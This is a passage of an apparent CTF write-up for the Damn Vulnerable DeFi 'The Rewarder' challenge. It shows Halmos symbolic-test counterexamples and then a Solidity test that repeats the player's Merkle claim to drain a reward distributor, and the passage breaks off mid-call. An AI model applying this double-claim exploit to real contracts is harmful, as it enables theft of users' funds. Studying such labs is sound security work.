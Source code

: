 ```javascript
p_inputTokens[0]_address_58409a8_20 = 0x0000000000000000000000000000000000000000000000000000000000000000
p_inputTokens[1]_address_b9b63db_21 = 0x0000000000000000000000000000000000000000000000000000000000000000
p_inputTokens_length_8a67349_19 = 0x0000000000000000000000000000000000000000000000000000000000000002
```
We were lucky: one symbolic transaction was enough to find the bug. Let's deal with a counterexample.
## Counterexamples analysis
The 2 counterexamples provided are essentially one bug that worked separately on **DVT** and **WETH** tokens. In simple words, we can collect our reward several times if we pass the same token index into different `tokenIndex` elements of `inputClaims[]` array:
```javascript
halmos_SymbolicInputToken_address_05635b7_29 = 0x00000000000000000000000000000000aaaa0004
halmos_SymbolicInputToken_address_7b0d29c_30 = 0x00000000000000000000000000000000aaaa0004
```
Remember that we replaced the `inputTokens[inputClaim.tokenIndex]` logic with a `SymbolicInputToken`, so, the logic of the bug is not so obvious from the counterexample. But nevertheless - a bug was found.
## Using a counterexample
In the Halmos test, we ignored cryptographic checks. However, we will use them here. We also remember that we need to transfer all funds to **recovery**. So, let's build an attack so as to empty the **distributor** for the maximum possible amount:
```solidity
function test_theRewarder() public checkSolvedByPlayer {
    bytes32[] memory dvtLeaves = _loadRewards(
        "/test/the-rewarder/dvt-distribution.json"
    );
    bytes32[] memory wethLeaves = _loadRewards(
        "/test/the-rewarder/weth-distribution.json"
    );
    uint256 dvtPlayerReward = 11524763827831882;
    uint256 wethPlayerReward = 1171088749244340;
    uint256 dvtAttackCount = TOTAL_DVT_DISTRIBUTION_AMOUNT / dvtPlayerReward;
    uint256 wethAttackCount = TOTAL_WETH_DISTRIBUTION_AMOUNT / wethPlayerReward;

    Claim[] memory claims = new Claim[](dvtAttackCount + wethAttackCount);
    IERC20[] memory tokensToClaim = new IERC20[](2);
    tokensToClaim[0] = IERC20(address(dvt));
    tokensToClaim[1] = IERC20(address(weth));
    for (uint256 i = 0; i < dvtAttackCount; i++) {
        claims[i] = Claim({
        batchNumber: 0, // claim corresponds to first DVT batch
        amount: dvtPlayerReward,
        tokenIndex: 0, // claim corresponds to first token in `tokensToClaim` array
        proof: merkle.getProof(dvtLeaves, 188) // player's address is at index 188
        });
    }
    for (uint256 i = 0; i < wethAttackCount; i++) {
        claims[dvtAttackCount + i] = Claim({
        batchNumber: 0, // claim corresponds to first WETH batch
        amount: wethPlayerReward,
        tokenIndex: 1, // claim corresponds to second token in `tokensToClaim` array
        proof: merkle.getProof(wethLeaves, 188) // player's address is at index 188
        });
    }

    distributor.claimRewards({
        inputClaims: claims,
        inputTokens: tokensToClaim
```